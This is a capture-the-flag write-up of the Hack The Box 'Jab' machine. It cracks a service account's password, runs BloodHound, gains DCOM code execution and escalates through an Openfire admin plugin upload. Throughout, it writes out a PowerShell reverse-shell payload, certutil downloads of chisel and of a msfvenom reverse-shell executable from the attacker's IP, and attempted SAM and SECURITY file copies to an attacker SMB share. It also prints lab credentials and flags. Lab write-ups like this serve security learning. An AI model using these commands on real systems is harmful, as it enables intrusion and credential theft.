The room concerns the discussion of a penetration test done internally. In the messages is the result of the cracking of a TGS ticket belonging to the user 'svc_openfire'. In the command, you can see that the wordlist used is rockyou. The TGS ticket is then saved in a file and the cracking is repeated.


The cracking worked: the password of the user 'svc_openfire' is '`!@#$%^&*(1qazxsw`'. They are valid credentials.

```shell
$ crackmapexec smb $IP -u svc_openfire -p '!@#$%^&*(1qazxsw'
SMB         10.129.98.88    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
SMB         10.129.98.88    445    DC01             [+] jab.htb\svc_openfire:!@#$%^&*(1qazxsw
```

Bloodhound is runned remotely to get more information about the domain.

```shell
$ bloodhound-python -u 'svc_openfire' -p '!@#$%^&*(1qazxsw' -ns 10.129.98.88 -d jab.htb --zip -c All  
INFO: Found AD domain: jab.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.jab.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 502 computers
INFO: Connecting to LDAP server: dc01.jab.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 2687 users
INFO: Found 162 groups
INFO: Found 2 gpos
INFO: Found 21 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
[...]
INFO: Done in 03M 26S
INFO: Compressing output into 20240228163139_bloodhound.zip
```

Visual analysis is performed with BloodHound. Users "svc_openfire" and "jmontgomery" are set as owned. Regarding the user "svc_openfire," BH reports an oddity to us.


As seen above, the user "svc_openfire" is a member of the "Distributed COM Users" group and BH reports to us that it can run DCOM on the machine. We inquire about the privilege "ExecureDCOM" reported by BH and arrive at the following URL: [https://simondotsh.com/infosec/2021/12/29/dcom-without-admin.html](https://simondotsh.com/infosec/2021/12/29/dcom-without-admin.html). The blog post talks about the execution of DCOM by non-privileged users: it represents exactly the same current situation. In the blog post, from several tests, it concludes that if a user is a member of the "Distributed COM Users" group and if "Remote Launch" and "Remote Activation" privileges are enabled (not the default behavior) it is possible to execute remote commands. Let's give it a try.



BOOM! RCE is confirmed. It's time to get a shell.

A powershell payload is generated to obtain a reverse shell.

```shell
$ python3 mkpsrevshell.py 10.10.14.10 4444                                                                   
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwA[...]BpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=
```

The powershell payload is executed as a remote command.


BLING BLING.

***user.txt***: 3d13d58a55072503d4c9441593246c35


It's time to privesc. Looking for possible backups of SAM and SYSTEM files, you will find something interesting.


There appear to be backups of the SAM, SYSTEM, and SECURITY files in the "`C:\Windows\System32\config\RegBack\`" directory.

An SMB server was used (thanks to Impacket) and and the SAM, SECURITY and SYSTEM files are transferred to the victim machine.

Attacker side:

```shell
$ python3 examples/smbserver.py -smb2support tmp /home/kali/Desktop/htb/jab/files -username "admin" -password "admin"
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Victim side:

```shell
PS C:\Windows\System32\config\RegBack> net use Z: \\10.10.14.10\tmp /user:admin admin
The command completed successfully.
PS C:\Windows\System32\config\RegBack> cmd /c "copy SAM \\10.10.14.10\tmp\SAM"
        0 file(s) copied.
PS C:\Windows\System32\config\RegBack> cmd /c "copy SECURITY \\10.10.14.10\tmp\SECURITY"
        0 file(s) copied.
```

It seems that it is not possible to transfer files. One continues to search. Listening on port 9090 on localhost appears to be the Openfire web console.

```shell
PS C:\Program Files\Openfire\conf> netstat -ano | findstr /i listening | findstr 127.0.0.1
  TCP    127.0.0.1:53           0.0.0.0:0              LISTENING       2636
  TCP    127.0.0.1:9090         0.0.0.0:0              LISTENING       3168
  TCP    127.0.0.1:9091         0.0.0.0:0              LISTENING       3168
  
PS C:\Program Files\Openfire\conf> Get-Process -Id 3168

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
-------  ------    -----      -----     ------     --  -- -----------                                                  
   1168     107   613032     546716              3168   0 openfire-service
```

The version of Openfire installed is checked. It is 4.7.5.

```shell
PS C:\> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

DisplayName                                                   
-----------                                                   
Openfire 4.7.5                                                
                                                              
Mozilla Firefox (x64 en-US)                                   
Mozilla Maintenance Service                                   
                                                              
Microsoft Visual C++ 2022 X64 Additional Runtime - 14.32.31326
VMware Tools                                                  
Java 8 Update 391 (64-bit)                                    
Microsoft Visual C++ 2022 X64 Minimum Runtime - 14.32.31326
```

Through portforwaring with Chisel you expose port 9090 to the outside world.

Attacker side:

```shell
$ ./chisel_1.9.1_linux_amd64 server -p 9000 --reverse                                              
2024/02/29 11:39:22 server: Reverse tunnelling enabled
2024/02/29 11:39:22 server: Fingerprint JxjWQpYWKRMIwb9GvBcCcNepiYmzRVpFEKLV+h+mCvw=
2024/02/29 11:39:22 server: Listening on http://0.0.0.0:9000
```

Victim side:

```shell
PS C:\tmp> certutil -urlcache -f http://10.10.14.10/chisel_1.9.1_windows_amd64.exe chisel.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\tmp> .\chisel.exe client 10.10.14.10:9000 R:9090:127.0.0.1:9090
```


The user credentials "svc_openfire" allow us to pass the login.


At the top right you can see that the version of Openfire is 4.7.5. Among the various options it turns out that the user we logged in with, namely "svc_openfire" is an administrator user.


After a while I turn out to be stuck. I take a look at the text Discord server about the box. About the privesc of mentions a CVE.

About Openfire 4.7.5 there is a recent CVE: CVE-2023-32315. The vulnerability deals with a path traversal that results in an RCE. However, Openfire 4.7.5 appears to be a patched version. However, delving deeper into the vulnerability reveals that the path traversal is used to obtain a cookie and a CSRF token that allows a new administrator user to be created. After creating a privileged user, RCE is accomplished by uploading a plugin.

In our situation, we already have a privileged user so you could get RCE by doing uploads in plugins. The necessary plugin is available from the following public repository: [https://github.com/miko550/CVE-2023-32315](https://github.com/miko550/CVE-2023-32315).

The repository is cloned and the "openfire-management-tool-plugin.jar" plugin is uploaded:
- goto tab plugin > upload plugin `openfire-management-tool-plugin.jar`
- goto tab server > server settings > Management tool (the plugin will ask for a pass enter 123)


Simply SYSTEM. It's time to get a SYSTEM shell. Msfvenom was used to generate an executable to obtain a reverse shell.

```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

Then it was uploaded to the target machine.

```shell
PS C:\tmp> certutil -urlcache -f http://10.10.14.10/reverse.exe sh.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

The executable is launched from the webapp.


***root.txt***: 192439e0e0d6f3e3dd3d05110b00a07e


